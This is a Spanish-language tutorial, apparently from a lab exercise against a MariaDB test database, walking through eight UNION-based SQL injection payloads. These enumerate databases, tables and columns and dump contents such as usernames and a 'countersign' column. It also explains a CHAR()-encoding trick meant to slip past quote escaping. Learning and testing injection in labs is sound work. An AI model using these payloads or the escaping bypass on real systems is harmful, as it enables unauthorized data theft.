

## SQL Injection Paso a Paso

### 1. Listar todas las tablas de la base de datos actual

Este comando devuelve una lista de todas las tablas en la base de datos actual a la que se ha conectado el atacante.

```
1 UNION SELECT table_name, NULL FROM information_schema.tables --
```

- ```1```: Selección de la primera columna de la consulta (en este caso, el número 1 es utilizado para igualar el número de columnas en la consulta original, se necesita que se devuelva el usuario 1 y la siguiente consulta con UNION).
</br>
    
</br>
- ```UNION```: Operador SQL utilizado para combinar los resultados de múltiples consultas.
- ```SELECT``` table_name, NULL: El atacante está seleccionando el nombre de las tablas (table_name) y un valor nulo en la segunda columna. El valor nulo es necesario para igualar el número de columnas con la consulta original.
- ```FROM``` information_schema.tables: El information_schema es una base de datos especial en MariaDB que contiene información sobre las bases de datos, tablas, columnas, etc. tables es una vista que contiene los nombres de todas las tablas de la base de datos.
- ```--```: Comentario para ocultar el resto de la consulta original (opcional).

### 2. Listar la base de datos actual

Este comando muestra la base de datos actual que se está utilizando.

```
1 UNION SELECT database(), NULL --
```

- ```database()```: Función MariaDB que devuelve el nombre de la base de datos actual.
- ```NULL```: Se selecciona un valor nulo para igualar el número de columnas de la consulta original, en este caso la informacion la va a dar en el apartado "First name" y el NULL es para el apartado "Surname".

### 3. Listar todas las bases de datos

Este comando muestra una lista de todas las bases de datos disponibles en el servidor MariaDB.

```
1 UNION SELECT schema_name, NULL FROM information_schema.schemata --
```
- ```schema_name```: Devuelve el nombre de cada base de datos.
- ```FROM information_schema.schemata```: El information_schema.schemata es una vista que contiene información sobre todas las bases de datos en el servidor MariaDB.

### 4. Listar tablas de una base de datos específica
Este comando muestra todas las tablas en una base de datos específica, en este caso, la base de datos llamada Member_Sql_Injection.

```
1 UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110) --
```

> [!CAUTION]
> ¿Por que usso ASCII en vez de ```Member_Sql_Injection```. Si utilizas ```Member_Sql_Injection```, aparece este error: ```You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '\'Member_Sql_Injection\' --' at line 1```. Eso se debe a una forma común de protección contra inyecciones SQL conocida como "escapado de caracteres". En la mayoría de los sistemas de gestión de bases de datos (DBMS), se utiliza una técnica de escapado para prevenir ataques de inyección SQL, donde los caracteres especiales como las comillas simples (') o dobles (") se preceden por una barra invertida (\) para indicar que esos caracteres deben ser tratados literalmente y no como parte de una expresión SQL. Con carcteres ASCII se puede saltar esta protección.

- ```CHAR(77, 101, 109, 98, 101, 114, 95, 83, 113, 108, 95, 73, 110, 106, 101, 99, 116, 105, 111, 110)```: Esta función CHAR() convierte una secuencia de valores numéricos en caracteres ASCII. En este caso, se traduce a 'Member_Sql_Injection'.
- ```WHERE table_schema = 'Member_Sql_Injection'```: Filtra las tablas de la base de datos Member_Sql_Injection.

### 5. Listar las columnas de una tabla en la base de datos actual
Este comando muestra las columnas de una tabla en la base de datos actual.

```
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = CHAR(117, 115, 101, 114, 115) --
```

- ```CHAR(117, 115, 101, 114, 115)```: Similar al ejemplo anterior, este comando convierte los valores numéricos a caracteres ASCII, lo que da como resultado 'users'. Este es el nombre de la tabla de la que se desea obtener las columnas.
- ```FROM information_schema.columns```: Esta vista contiene información sobre las columnas de las tablas.
- ```WHERE table_name = 'users'```: Filtra las columnas de la tabla users.

### 6. Listar las columnas de una tabla en una base de datos específica
Este comando muestra las columnas de una tabla de una base de datos específica. En este caso, la base de datos es Member_Sql_Injection y la tabla es users.

```
1 UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'Member_Sql_Injection' --
```

- ```WHERE table_name = 'users' AND table_schema = 'Member_Sql_Injection'```: Filtra las columnas de la tabla users en la base de datos Member_Sql_Injection.

### 7. Mostrar contenido de una columna de una tabla en la base de datos actual
Este comando devuelve el contenido de una columna específica, en este caso, de la tabla users en la base de datos actual.

```1 UNION SELECT countersign, NULL FROM users --```

countersign: El atacante está solicitando el contenido de la columna countersign de la tabla users.
FROM users: Especifica la tabla users de la base de datos actual.

### 8. Mostrar contenido de una columna de una tabla en una base de datos específica
Este comando muestra el contenido de la columna username de la tabla users en la base de datos Member_Sql_Injection.

```
1 UNION SELECT username, NULL FROM Member_Sql_Injection.users --
```

- ```Member_Sql_Injection.users```: Especifica la base de datos Member_Sql_Injection y la tabla users.

- ```username```: Se selecciona el contenido de la columna username.
